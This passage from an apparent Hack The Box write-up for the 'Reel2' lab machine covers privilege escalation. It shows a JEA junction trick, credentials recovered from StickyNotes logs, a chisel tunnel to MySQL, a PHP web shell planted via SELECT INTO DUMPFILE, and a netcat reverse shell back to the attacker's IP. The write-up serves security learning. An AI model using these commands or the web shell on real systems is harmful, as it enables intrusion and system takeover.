# TypesToProcess = ‘C:\ConfigData\MyTypes.ps1xml’, ‘C:\ConfigData\OtherTypes.ps1xml’# Format files (.ps1xml) to load when applied to a session
# FormatsToProcess = ‘C:\ConfigData\MyFormats.ps1xml’, ‘C:\ConfigData\OtherFormats.ps1xml’# Assemblies to load when applied to a session
# AssembliesToLoad = ‘System.Web’, ‘System.OtherAssembly, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a’}
```

--> jea_test_account.pssc
```
@{# Version number of the schema used for this document
SchemaVersion = ‘2.0.0.0’# ID used to uniquely identify this document
GUID = ‘d6a39756-aa53–4ef6-a74b-37c6a80fd796’# Author of this document
Author = ‘cube0x0’# Description of the functionality provided by these settings
# Description = ‘’# Session type defaults to apply for this session configuration. Can be ‘RestrictedRemoteServer’ (recommended), ‘Empty’, or ‘Default’
SessionType = ‘RestrictedRemoteServer’# Directory to place session transcripts for this session configuration
# TranscriptDirectory = ‘C:\Transcripts\’# Whether to run this session configuration as the machine’s (virtual) administrator account
RunAsVirtualAccount = $true# Scripts to run when applied to a session
# ScriptsToProcess = ‘C:\ConfigData\InitScript1.ps1’, ‘C:\ConfigData\InitScript2.ps1’# User roles (security groups), and the role capabilities that should be applied to them when applied to a session
RoleDefinitions = @{
 ‘htb\jea_test_account’ = @{
 ‘RoleCapabilities’ = ‘jea_test_account’ } }# Language mode to apply when applied to a session. Can be ‘NoLanguage’ (recommended), ‘RestrictedLanguage’, ‘ConstrainedLanguage’, or ‘FullLanguage’
LanguageMode = ‘NoLanguage’}
```

User jea_test_account is allowed to read anything using `Check-File` function as long as it’s on `D:\` or `C:\ProgramData`. Because the language mode it is set to `NoLanguage`, a Powershell and CMD command won’t be recognized inside jea_test_account.

These configuration files can be loaded only by administrator, so overwriting the files won’t work.

Since there’s no `D:\` drive, I need to create a junction in `C:\ProgramData` → `C:\Users\Administrator` (common users are not allowed to create symlink)

This can be done using powershell.

```
New-Item -Path ‘C:\ProgramData\sys’ -Target ‘C:\Users\Administrator’ -ItemType Junction
```

But first, I'll go back to read what's left in the k.svensson's desktop.


Windows must be stores the StickyNotes data somewhere, so I did recursive search anything in k.svensson home dir that contains the word sticky C:/users/k.svensson using simple the `dir` command.

```
cmd /c dir /s /b *sticky

```



I came to `C:\Users\k.svensson\AppData\Roaming\stickynotes\` and did a recursive again and then I found a log file `000003.log` contains jea_test_account password 



Now I can just open another PS Session and load the jea_user_account's configuration name

```
PS /root/reel2> $user=’htb\jea_test_account’
PS /root/reel2> $password = ConvertTo-SecureString ‘Ab!Q@vcg^%@#1’ -AsPlainText -Force
PS /root/reel2> $cred = New-Object -Typename System.Management.Automation.PSCredential -Argumentlist $user, $password
PS /root/reel2> Enter-PSSession -Credential $cred -ConfigurationName jea_test_account -Computer reel2.htb -Authentication Negotiate
```

I can grab the root with CheckFile function

```
[reel2.htb]: PS>Check-File C:\programdata\sys\Desktop\root.txt
```

## Shell as NT Authority\System

At the first time I thought the web server uses a Windows IIS, so the source code should be placed inside `C:/inetpub/wwwroot` but there’s nothing there except the IIS default page files and I don’t have write permission as well.

Then I remembered that the SNS page does leak its path 😅.



I can use jea_test_account to read the leaked file.


According to the original source code on Github, the database credentials is stored in `C:\xampp\htdocs\social\config\connect.php`


DB credential: `root:Gregswd123FAEytjty`

I already knew from winPEAS output that mysql service is running 



Because I can't get the process owner (I'm using accesschk from sysinternal) then there's a possibility it's running with higher privilege.



Fire up the server with `--reverse` will allows the client (Reel2) to specify which port to use in remote (my Kali)

```
root@iamf# chisel server --reverse -p 9005
2021/03/15 13:48:12 server: Reverse tunnelling enabled
2021/03/15 13:48:12 server: Fingerprint 3a:1f:5f:a2:35:84:ae:7d:88:cc:9c:56:a6:27:26:d2
2021/03/15 13:48:12 server: Listening on 0.0.0.0:9005...
``` 

In Reel2, I'll have to download the chisel binary that's hosted in my machine and then start the tunnelling.
```
PS C:\Users\k.svensson\Documents> wget 10.10.14.35/chisel_win.exe -o cs.exe
wget 10.10.14.35/chisel_win.exe -o cs.exe
PS C:\Users\k.svensson\Documents> .\cs.exe client 10.10.14.35:9005 R:3306:0.0.0.0:3306
.\cs.exe client 10.10.14.35:9005 R:3306:0.0.0.0:3306
2021/03/15 18:51:26 client: Connecting to ws://10.10.14.35:9005
2021/03/15 18:51:28 client: Fingerprint 3a:1f:5f:a2:35:84:ae:7d:88:cc:9c:56:a6:27:26:d2
2021/03/15 18:51:28 client: Connected (Latency 73.9349ms)
```
Now I can just connect with the DB credentials and drop the shell right inside the Wallstant root directory (`C:\xampp\htdocs\social\`)
```
root@iamf# mysql -u root -h 127.0.0.1 -p
Enter password:Gregswd123FAEytjty
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11
Server version: 10.4.13-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SELECT '<?php echo system($_GET["iamf"]); ?>' into DUMPFILE 'C:/xampp/htdocs/social/iamf.php';
Query OK, 1 row affected (0.890 sec) 
```

Access it via curl or browser.
```
root@iamf# curl -s "http://10.10.10.210:8080/iamf.php?iamf=whoami" 
nt authority\system
```


I had the previous netcat executable on k.svensson documents directory, so I could just have it executed to pop a system shell

```
root@iamf# curl -s "http://10.10.10.210:8080/iamf.php?iamf=C%3A%2Fusers%2Fk.svensson%2Fdocuments%2Fr.exe%20-e%20cmd%2010.10.14.35%209002"
```
And I'm done.
```
root@iamf# rlwrap nc -nvlp 9002 
listening on [any] 9002 …
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.210] 15902
Microsoft Windows [Version 6.3.9600]
© 2013 Microsoft Corporation. All rights reserved.
C:\xampp\htdocs\social>hostname
hostname
Reel2
```



